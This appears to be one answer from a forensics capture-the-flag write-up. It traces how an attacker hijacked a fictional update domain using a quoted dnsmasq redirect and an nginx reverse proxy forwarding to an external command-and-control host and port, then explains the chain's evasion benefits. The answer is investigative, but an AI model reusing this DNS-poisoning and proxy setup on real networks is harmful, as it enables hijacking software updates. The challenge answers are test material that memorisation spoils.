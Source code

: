### Question 10: Domain Redirection Details

**Task:** To perform this attack, the attacker redirected the original update domain to a malicious one. Identify the original domain and the final redirect IP address and port.

**Solution:**

Combining evidence from the CogWork-1 search fragments, I mapped the complete redirection chain:

**From Evidence Fragment 1 (dnsmasq config):**
```
address=/updates.cogwork-1.net/192.168.211.8
```

**From Evidence Fragment 3 (nginx reverse proxy):**
```
server {
    listen 80;
    location / {
        proxy_pass http://13.62.49.86:7477/;
        proxy_set_header Host jm_supply;
    }
}
```

**Complete Attack Infrastructure:**

```
User Request for updates.cogwork-1.net
         ↓
DNS Query intercepted by malicious dnsmasq
         ↓
Resolves to 192.168.211.8 (attacker's machine)
         ↓
nginx reverse proxy on port 80
         ↓
Forwards to http://13.62.49.86:7477/ (actual malicious server)
```

**Architecture Analysis:**

1. **Original Domain:** `updates.cogwork-1.net` (legitimate update server)
2. **DNS Poisoning:** Points to 192.168.211.8 (compromised Linux machine)
3. **Reverse Proxy Layer:** nginx forwards requests to the real malicious infrastructure
4. **Final Destination:** 13.62.49.86:7477 (attacker's command and control server)

**Why Use a Proxy Chain:**

The attacker employed a multi-layered approach for:
- **Stealth:** Direct connections to 13.62.49.86 would be suspicious; routing through the compromised internal machine appears normal
- **Flexibility:** Can redirect to different backends without changing DNS configuration
- **Resilience:** If the final server goes down, the proxy can be reconfigured without alerting victims
- **Attribution Evasion:** Investigators see connections to an internal IP, not the external C2 server
